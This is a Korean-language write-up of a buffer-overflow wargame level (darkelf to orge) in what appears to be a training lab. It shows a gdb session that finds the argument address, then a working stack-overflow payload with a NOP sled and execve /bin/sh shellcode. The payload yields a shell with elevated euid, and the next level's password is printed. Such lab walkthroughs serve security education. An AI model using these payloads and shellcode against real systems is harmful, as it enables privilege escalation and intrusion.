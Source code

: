 ``` bash2
0x8048542 <main+66>:	add    $0x4,%esp
0x8048545 <main+69>:	push   $0x0
0x8048547 <main+71>:	call   0x8048420 <exit>
0x804854c <main+76>:	add    $0x4,%esp
0x804854f <main+79>:	nop    
0x8048550 <main+80>:	nop    
0x8048551 <main+81>:	movl   $0x0,0xffffffd4(%ebp)
0x8048558 <main+88>:	mov    0xffffffd4(%ebp),%eax
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) b *main+6
Breakpoint 1 at 0x8048506
(gdb) r `python -c 'print "\xbf"*48'` `python -c 'print "A"*425'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/darkelf/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB `python -c 'print "\xbf"*48'` `python -c 'print "A"*425'`

Breakpoint 1, 0x8048506 in main ()
(gdb) x/wx $ebp+0xc
0xbffff8b4:	0xbffff8f4
(gdb) x/wx 0xbffff8f4+8
0xbffff8fc:	0xbffffa72
(gdb) x/s 0xbffffa72
0xbffffa72:	 'A' <repeats 200 times>...
```

argv[2]의 주소는 0xbffffa72 임을 알 수 있다.

argv[1] = "A"*44 (dummy byte)
+"\x72\xfa\xff\xbf" (shellcode addr)

argv[2] = "\x90"*200 (Nop Sled)
+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" (shellcode)
+"\x90"*200 (Nop Sled)

``` bash2
[darkelf@localhost darkelf]$ ~/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA `python -c 'print "A"*44+"\x72\xfa\xff\xbf"'` `python -c 'print "\x90"*200+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*200'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAr?
bash$ id
uid=506(darkelf) gid=506(darkelf) euid=507(orge) egid=507(orge) groups=506(darkelf)
bash$ my-pass
euid = 507
timewalker
```

# orge
